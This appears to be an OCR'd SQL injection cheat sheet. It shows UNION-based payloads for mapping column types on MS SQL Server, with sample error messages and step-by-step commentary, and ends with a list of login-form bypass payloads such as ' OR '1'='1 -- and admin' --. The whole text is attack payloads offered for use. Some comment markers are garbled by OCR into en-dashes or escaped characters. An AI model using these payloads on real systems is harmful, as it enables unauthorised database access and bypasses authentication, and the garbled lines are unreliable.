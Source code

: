&nbsp;	' UNION SELECT sum(columntofind) from users-- (S)

If no error is displaying it means the column is numeric



You can also use cast() or convert() in a similar way, for example:

&nbsp;	SELECT \* FROM Table1 WHERE id = -1 UNION ALL SELECT null, null, NULL, NULL, 	convert(image,1), null, null, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, 	NULL, NULL--	



&nbsp;	11223344) UNION SELECT NULL,NULL,NULL,NULL WHERE 1=2 –- 

No error—the syntax is correct and MS SQL Server is used. Proceeding.



&nbsp;	11223344) UNION SELECT 1,NULL,NULL,NULL WHERE 1=2 –- 

No error—we now know the first column is an integer.	



&nbsp;	11223344) UNION SELECT 1,2,NULL,NULL WHERE 1=2 -- 

&nbsp;	Microsoft OLE DB Provider for SQL Server error '80040e07' 

&nbsp;	Explicit conversion from data type int to image is not allowed.

Error! The second column is not an integer.



&nbsp;	11223344) UNION SELECT 1,'2',NULL,NULL WHERE 1=2 –- 

No error—the second column is a string.	



&nbsp;	11223344) UNION SELECT 1,'2',3,NULL WHERE 1=2 –- 

Error! The third column is not an integer…

Rinse and repeat until you have all the column types mapped out.



**login forms injection**

&nbsp;	' OR '1'='1 --

&nbsp;	' OR '1'='1'-- -

&nbsp;	' OR 1=1 LIMIT 1-- -

&nbsp;	' OR '1'='1' --

&nbsp;	' OR 1=1 --

&nbsp;	" OR 1=1 --

&nbsp;	' OR '1'='1'/\\\*

&nbsp;	admin' --

&nbsp;	admin' OR '1'='1'#

&nbsp;	admin')-- -

